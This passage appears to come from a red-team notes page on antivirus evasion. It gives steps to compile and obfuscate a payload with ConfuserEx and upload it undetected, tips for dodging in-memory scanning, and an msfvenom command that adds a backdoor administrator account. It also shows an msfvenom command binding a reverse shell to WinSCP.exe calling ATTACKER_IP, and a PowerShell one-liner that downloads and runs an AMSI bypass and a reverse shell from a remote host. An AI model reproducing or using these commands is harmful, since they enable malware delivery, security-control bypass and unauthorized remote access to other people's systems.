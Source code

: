```bash
}

# Compile it
C:\Users\commando\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe UnEncStagelessPayload.cs

# Download ConfuserEx from https://github.com/mkaring/ConfuserEx/releases, run it, then drag & drop the *.exe into the window. 
# Navigate to the Settings Tab, check packer and select compressor as enabled. Add a rule and set the preset to Maximum. 
# Go to the Protect tab and hit Protect.

#Then upload the .exe to the target using SMB share or certutil and you the file should be uploaded successfully since it is not flagged as malicious
```
{% endcode %}

In case, after unpacking, AVs detect it doing in-memory scanning:

* **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. AVs do not scan memory for a long time.
* **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with `msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp` and see what happens.

If detection isn't an issue, you can even use a simple trick. From your reverse shell, run `cmd.exe` again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned.

## Binders

{% code overflow="wrap" %}
```sh
msfvenom -x WinSCP.exe -k -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=7779 -f exe -o WinSCP-evil.exe
```
{% endcode %}

## AMSI Bypass

AMSI is instrumented only in memory and not on disk (for that Windows Defender). If AMSI detects a malicious result:

{% code overflow="wrap" fullWidth="true" %}
```powershell
######## NEW WAY JUN 2025 
https://github.com/raskolnikov90/LainAmsiOpenSession

https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/
PS C:Users\Tryhackme> 'Invoke-Hacks'
...
This script contains malicious content and has been blocked by your antivirus software.

###### NOTE: to bypass effectively, You can use whatever reflective loaded version of an exploit/program coupled with an AMSI bypass payload / The reflective loaded version are all those Invoke-Something PowerShell scripts
Reflective Code Loading https://www.petergirnus.com/blog/what-is-reflective-code-loading-t1620
Invoke-Obfuscation https://github.com/danielbohannon/Invoke-Obfuscation

powershell iex(iwr -usebasicparsing 10.10.14.2/amsibypass.ps1);iex(iwr -usebasicparsing 10.10.14.2/rev.ps1)


```